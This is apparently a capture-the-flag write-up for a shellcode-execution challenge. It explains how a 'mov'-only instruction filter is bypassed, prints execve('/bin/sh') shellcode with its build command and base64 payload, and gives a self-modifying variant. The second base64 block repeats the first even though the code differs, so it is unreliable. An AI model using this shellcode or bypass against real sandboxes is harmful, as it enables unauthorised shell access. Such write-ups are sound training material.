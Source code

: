# Service

The [server.py](files/server.py) contains some backend that is reading a shellcode and executing it after some checks.

Connecting to the given host and port, it offers the service.

![](screenshots/1.png)

# Checks

The server is checking if the shellcode contains anything invalid. Only instructions starting with `mov` and some other instruction with a given hash is allowed.

```python
i.mnemonic.startswith("mov") or
sha256_hash(i.mnemonic) == "44b1bb13ee5a5d92ee3823110f16031c246a8f9c84c96abc3d9237de2532d18c"
```

The hash can be bruteforced by hashing all the available instructions.

```python
from hashlib import sha256
mnemonics = ["AAA", "AAD", "AAM", "AAS", "ADC", "ADCX", "ADD", "ADDPD", "ADDPS", "ADDSD", "ADDSS", "ADDSUBPD", "ADDSUBPS", "...", "SUB", "SUBPD", "SUBPS", "SUBSD", "SUBSS", "SWAPGS", "SYSCALL", "..."]

valid = "44b1bb13ee5a5d92ee3823110f16031c246a8f9c84c96abc3d9237de2532d18c"
pairs = [(m, sha256(m.encode()).hexdigest()) for m in (mnemonics + [i.lower() for i in mnemonics])] 
[p for p in pairs if p[1]==valid][0]
```

The instruction that is also allowed is `syscall`.

# Exploit

All we need is a simple shellcode that is only using `mov` and `syscall`. Example in [shellcode.asm](workdir/shellcode.asm).

```nasm
section .text
  global _start
    _start:
      mov rdx, 0x0
      mov rsi, 0x0
      mov rbx, '/bin/sh' 
      mov [rsp], rbx
      mov rdi, rsp
      mov al, 59
      syscall
```

```bash
nasm -f elf64 shellcode.asm -o shellcode.o && objcopy -O binary -j .text shellcode.o /dev/stdout | base64
```

```
ugAAAAC+AAAAAEi7L2Jpbi9zaABIiRwkSInnsDsPBQ==
```

![](screenshots/2.png)

# Flag

`CQ24{Th3_l1F3's_f0aMy_5id3}`

# Exploit without syscall

It is possible to write a code without `syscall`, because our shellcode is `RWE` mapped. Just write the instruction on the fly. Example in [shellcode_no_syscall.asm](workdir/shellcode_no_syscall.asm).

```nasm
section .text
  global _start
    _start:
	  mov rdx, 0x0
      mov rsi, 0x0
      mov rbx, '/bin/sh' 
      mov [rsp], rbx
      mov rdi, rsp
      mov al, 59
      mov r15, 0xCCCCCCCCCCCC050F ; syscall
      mov [rel $+7], r15
```

```bash
nasm -f elf64 shellcode_no_syscall.asm -o shellcode_no_syscall.o && objcopy -O binary -j .text shellcode_no_syscall.o /dev/stdout | base64
```

```
ugAAAAC+AAAAAEi7L2Jpbi9zaABIiRwkSInnsDsPBQ==
```



